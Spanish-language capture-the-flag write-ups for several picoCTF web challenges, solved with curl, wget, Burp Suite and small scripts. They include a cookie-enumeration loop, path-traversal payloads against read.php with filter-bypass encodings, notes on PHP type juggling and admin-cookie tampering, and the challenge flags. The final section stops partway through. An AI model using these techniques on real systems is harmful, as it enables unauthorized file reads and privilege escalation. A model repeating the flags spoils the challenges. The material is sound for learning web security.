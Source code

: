 ## GET aHEAD

Nos dan una web que tiene dos botones "elige rojo" y "elige azul", si le das a uno se cambia el color del fondo.
Con el azul lo toma como peticion POST a index.php mientras que verde es GET a index.php?. Inspeccionando el codigo fuente con el curl no he encontrado
ninguna flag ni ruta escondida. Examinando las peticiones con las herramientas del navegador tampoco encontre gran cosa. Estaba algo perdido hasta que me 
dio por hacer un curl -I para ver si habia mas informacion en los headers y di con la flag.
```bash
~:$ curl http://mercury.picoctf.net:53554  -I
HTTP/1.1 200 OK
flag: picoCTF{r3j3ct_th3_du4l1ty_2e5ba39f}
Content-type: text/html; charset=UTF-8
```
Tiene sentido porque el titulo del reto dice de HEAD y los colores daban la pista de probar a cambiar los metodos (get = rojo, post = azul )
Con burpsuite cambie a HEAD y me salio lo mismo (el el metodo que usa el curl -I).

--------------------------------------------------------------------

## COOKIES

En esta web nos pone un "buscador de cookies" y la palabra "snickerdoodle" de ejemplo (supongo que sera una marca de cookies). Si pongo esa misma palabra
dice "I love snickerdoodle cookies!". Como estamos hablando todo el reto de las cookies, mire en el navegador en Cookies. Pone 0. Si le das a "home",
te sale el bscador otra vez y en cockies un -1. Si pongo otros numeros me sale el mensaje de "I love" otros tipos de cookies asi que supongo que 
habra que fuzzear o applicar algun tipo de sqli sencilla. Replicaos con curl la peticion:

```console
~:$ curl -s http://mercury.picoctf.net:6418 -H "Cookie: name=0"  -L | html2text
**** Cookies ****
×  That is a cookie! Not very special though...
I love snickerdoodle cookies!
```
Con un script de bash se pueden probar muchos numeros
```bash
for numero in $(seq 1 30); do
    peticion=$(curl -s "http://mercury.picoctf.net:6418/" -H "Cookie: name=$numero" -L | html2text )
    if ! echo $peticion | grep "Not very special" > /dev/null; then
        echo  "[Cookie nº -> $numero] $peticion" 
        exit 0
    fi  
done
```
```console
~:$ bash cookie.sh 
[Cookie nº -> 18] 
Flag: picoCTF{3v3ry1_l0v3s_c00k135_88acab36}
```
Para practicar quise hacer el equivalente en python.
```python
for number in range(20):
    req = requests.get("http://mercury.picoctf.net:6418/", cookies = {"name":str(number)})
    if not "That is a cookie! Not very special though..." in req.text:
        print(number)
```
--------------------------------------------------------------------

## Insp3ct0r

Aqui nos dan la web de alguien que acaba de empezar a programar "Mi primera web :)"
COn el *curl* (viendo el codigo fuente) tenemos 1/3 de la flag -> ```picoCTF{tru3_d3``` Tambien nos dan rutas a su .js y su .css, que al verlas
obetenemos el resto ```picoCTF{tru3_d3t3ct1ve_0r_ju5t_lucky?832b0699}```

Otros retos igauales son: **"Inspect HTML"**

--------------------------------------------------------------------

## Where are the robots.

Este reto lo resolvi muy rapidamente ya que se que hay una ruta llamada *"/robots.txt"* (referenciada por el titulo del reto) que suele contener rutas
ocultas (que no indexen los buscadores como Google). La ruta que me dio es */477ce.html* y ahi estaba la flag.

Otros retos igauales son: **"Roboto Sans"** (en este la ruta de la flag salia en base64) 

--------------------------------------------------------------------

## Search Source

Nos dan una web y nos dicen que en alguna parte hay un "artefacto importante" (la flag). Podemos hacerle un curl a la web, sacar rutas y mirarlas una por
una, pero una manera mas rapida de hacer esto es con ```wget -m http://saturn.picoctf.net:50761/``` que es copiar todo el codigo fuente de la web (el 
de todas y cada una de las rutas. De ahí te crea una carpeta a la que luego se le puede hacer un ```grep -riE "pico" ```para que busque de manera 
recursiva donde está la flag en toooodo el codigo. Al final la encontré en el "css" o sea en el sitio menos pintado.

--------------------------------------------------------------------

## Local Authority

Esta simple web nos da un panel de autenticación. Probe las credenciales por defecto como "admin:admin" y demas pero no. Al mirar el codigo fuente, tira
de "login.php" como es un php intente la vulberabilidad de type juggling (de php). No funcionó
> **Type juggling** -> Si la contraseña se valida con un == en vez de con === se puede saltar la validacion poniendo "true" como contraseña.

La solucion era mas chorra de lo que parece. Puse la ruta ```http://saturn.picoctf.net:49699/login.php``` y me dio el codigo fuente del php (esto no
suele pasar en la vida real ya que este se interpreta directamente). No encontré la contraseña pero si otra ruta "secure.js". Ahi dentro estaban las 
credenciales "admin:strongPassword098765". Me loguee con eso y me dieron la flag.

--------------------------------------------------------------------

## Forbidden paths

Esta web nos dice que si le damos uno de los tres txt (de tres novelas clasicas anglosajonas) nos lo muestra y asi es. Antes de los tres libos salen ".."
como de ruta anterior... En esta web se presenta la vulnerabilidad de LFI o local file inclusion
> **LFI** -> la máquina nos muestra parte de su contenido. Si se trampea se puede leer cualquier otro archivo.

La manera de trampear se llama **path traversal**. Segun dice estamos ahora en ```/usr/share/nginx/html``` y hay que ir a ```/flag.txt```
O sea hacia atrás. Hay que decir que el ascript que maneja esto es "read.php" al que habia que pedirle el parámetro "filename" por POST
```console
~:$ curl -s -X POST "http://saturn.picoctf.net:52683/read.php" -d "filename=divine-comedy.txt" | head -n 20  # -> el libro
~:$curl -s -X POST "http://saturn.picoctf.net:52683/read.php" -d "filename=../../../../../../../flag.txt" # -> la flag
```
Si no nos hubieran dejado habria tenido que tirar de bypases como poner ....//....// si nos quitan los ../ para que se quede en:  ../../../../ o 
urlencodear los "/" a "%252f..%252f..%252f"

-------------------------------------------------------------------

## Power cookie

Nos dan una web que tiene un link llamado "coninua como invitado", ahi nos dice que no hay contenido disponible para invitados. El sistema sabe que somos
invitados por la cookie. En cookies sale una con el parametro "isAdmin=0", si lo cambiamos a 1 nos deja ver la flag.

-------------------------------------------------------------------

## Secrets

He tenido muchos problemas con este reto. No por la dificultad en si sino porque la web esta tan saturada que a veces no funciona.
Nos dan una web 
En el codigo fuente encontramos esta ruta -> ```http://saturn.picoctf.net:50167/secret/assets/DX1KYM.jpg``` nos lleva a una foto como la que sale en la 
página principal. Pero ya tenemos la ruta **/secret** -> Nos muestran otro gif pero dicen que sigamos asi que vamos por un buen camino. Tambien nos dan
la ruta **/hidden/file.css**











